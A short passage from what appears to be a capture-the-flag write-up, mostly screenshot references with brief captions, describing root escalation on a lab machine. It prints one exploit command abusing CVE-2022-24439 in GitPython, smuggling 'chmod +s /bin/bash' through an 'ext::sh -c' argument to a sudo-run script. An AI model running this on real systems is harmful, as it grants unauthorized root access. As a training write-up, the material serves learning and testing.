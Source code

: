 ![](./IMG/61.png)

> Then read this file, I can get root flag

![](./IMG/62.png)

> Or I also can change the permission for /bin/bash 
> This command, I get the hint from the following

- [CVE-2022-24439: GitPython RCE](https://github.com/0xsyr0/Awesome-Cybersecurity-Handbooks/blob/main/handbooks/cve.md#cve-2022-24439-gitpython-rce)

```
sudo /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py "ext::sh -c chmod% +s% /bin/bash"
```

![](./IMG/63.png)

> Checking the permission of /bin/bash

![](./IMG/64.png)
